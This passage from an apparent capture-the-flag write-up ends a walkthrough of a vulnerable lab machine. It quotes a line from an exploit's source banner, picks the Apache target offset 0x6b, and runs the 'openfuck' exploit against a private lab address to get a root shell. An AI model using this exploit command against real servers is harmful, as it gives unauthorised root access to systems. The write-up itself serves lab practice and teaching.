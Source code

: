 ```bash

Fuck to all guys who like use lamah ddos. Read SRC to have no surprise
```

As we can see there are different versions of apache for different versions of Gnu/linux, after a few tries we found that the correct option is 0x6b.

```bash
./openfuck 0x6b 192.168.66.158 -c 45
```

![Untitled](Untitled%207.png)

We obtain a shell with root permissions so it is not necessary to escalate privileges.

With this we finish the machine.
 
Happy Hacking.


